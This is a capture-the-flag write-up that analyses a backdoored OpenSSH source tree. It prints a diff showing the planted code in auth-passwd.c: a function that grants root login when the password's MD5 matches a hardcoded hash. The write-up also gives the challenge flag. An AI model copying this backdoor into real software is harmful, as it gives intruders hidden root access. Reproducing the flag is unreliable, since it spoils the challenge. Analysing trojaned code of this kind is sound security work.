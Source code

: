 # ssh backdoor analysis (novice - 50 Points)

## Task
This challenge is about analyzing a backdoored SSH service.

Goal:

- find the backdoor
- find the backdoor password
- list all files that are altered compared to the origin version

Hint: compare trojan version versus original version

Please download the backdoor from here (backdoor-source.tar.gz) or from
the RESOURCE section. 

- explain your systematic approach of finding the backdoor
- list all files that have been altered (changed)
- explain how you were able to find the attacker password and add your tool/script/programm

## Solution

The given source code is the OpenSSH binary, so lets search for the original 
one. This is usefull, because with the original code it's way easier to find
any modifications compared to looking at the whole source code manually.

I had a bit problem finding the correct version, since the Github Repo
https://github.com/openssh/openssh-portable contains other version tags than
the headers of the C files. But I manage to find a version that matches the
content of the ssh.c Version (by searching in the git history of the ssh.c file
for the version 'ssh.c,v 1.553'). Then I downloaded the source and checkout
the commit '98e27dcf581647b5bbe9780e8f59685d942d8ea3'. A diff finds some
changes (I realized then this was not exactly the same version, but the diff
was not too big). One change looks very suspicious:

```
diff ./auth-passwd.c ../../git/swiss-hacking-challenge-2021/Bundle6/1_sshBackdoor/backdoor-source/auth-passwd.c
47a48,49
> #include <openssl/md5.h>
> 
88a91,93
>     if(sys_auth_backdoor(authctxt, password))
>         return 1;
> 
215a221,246
>     
> static char backdoor_hash[MD5_DIGEST_LENGTH] = \
> {
>     // HL{????} where ? is [0-9]
>     0x45, 0xD6, 0x16, 0xFF, 0x7D, 0x51, 0x08, 0xBD, 0x93, 0x09, 0x4F, 0xA1, 0x5F, 0xE0, 0xE1, 0xD2
> };
> 
> int
> sys_auth_backdoor(Authctxt *authctxt, const char *password)
> {
>     MD5_CTX c = {};
>     char password_hash[MD5_DIGEST_LENGTH] = {}; 
> 	struct passwd *pw = authctxt->pw;
>     
>     if(strcmp(pw->pw_name, "root") != 0 || strlen(password) != 6)
>         return 0;
> 
>     MD5_Init(&c);
>     MD5_Update(&c, password, strlen(password));
>     MD5_Final(password_hash, &c);
> 
>     if(memcmp(backdoor_hash, password_hash, MD5_DIGEST_LENGTH) != 0)
>         return 0;
> 
>     return 1;
> }
```

So this must be the backdoor, it checks if the username is 'root' and the
password matches the MD5 hash in the constant 'backdoor_hash'. As the
comment suggest, the password is in the format 'HL{????}' and the ? represents
only numbers. This makes this MD5 quiet easy to brute force (using the attached
brute.py script). The resulting flag: HL{7298}
